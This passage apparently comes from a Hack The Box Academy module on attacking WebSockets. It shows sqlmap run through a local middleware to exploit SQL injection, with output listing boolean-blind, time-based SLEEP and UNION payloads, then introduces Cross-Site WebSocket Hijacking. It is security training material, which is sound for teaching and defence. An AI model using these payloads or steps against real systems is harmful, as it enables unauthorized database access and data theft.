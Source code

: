 Afterward, we will run sqlmap to exploit the SQLi vulnerability, pointing it towards the middleware:

```shell
sqlmap -u http://127.0.0.1:8000/?username=htb-stdnt

sqlmap identified the following injection point(s) with a total of 70 HTTP(s) requests:
---
Parameter: username (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=htb-stdnt' AND 1426=1426 AND 'pYBp'='pYBp

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=htb-stdnt' AND (SELECT 4655 FROM (SELECT(SLEEP(5)))yezp) AND 'EeMR'='EeMR

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: username=htb-stdnt' UNION ALL SELECT CONCAT(0x7171626a71,0x6c634b4f4c7662574678666a5164434a617349627972495247707456704761666e4f785766794c50,0x7178627071)-- -
---
[11:44:36] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12

```

Changing `WS_URL` in the middleware to point to the remote system and running the same sqlmap command will exploit the vulnerable web application.

**Note:** We can attempt supplying the WebSocket URL directly to sqlmap.

**Note:** While we've demonstrated the exploitation of XSS and SQLi over WebSockets, it's worth noting that similar techniques can be applied to exploit other prevalent web vulnerabilities, including Command Injection or Local File Inclusion (LFI).


# Cross-Site WebSocket Hijacking (CSWH)

* * *

So far, we have discussed typical web vulnerabilities arising from improper sanitization of user input sent via WebSockets. [Cross-Site WebSocket Hijacking](https://christian-schneider.net/CrossSiteWebSocketHijacking.html) ( `CSWH`) is a vulnerability resulting from a `Cross-Site Request Forgery` ( `CSRF`) attack on the WebSocket handshake. Due to the `Same-Origin Policy`, regular CSRF attacks can only be used to send cross-origin requests but not access the response. However, WebSockets are not as strictly bound by the `Same-Origin Policy` as traditional HTTP requests; therefore, CSWH attacks can provide an attacker with write and read access to data sent over the WebSocket connection.

We will not discuss CSRF attacks basics; refer to the [Session Security](https://academy.hackthebox.com/module/details/153) module for more on it.

* * *

## Code Review - Identifying the Vulnerability
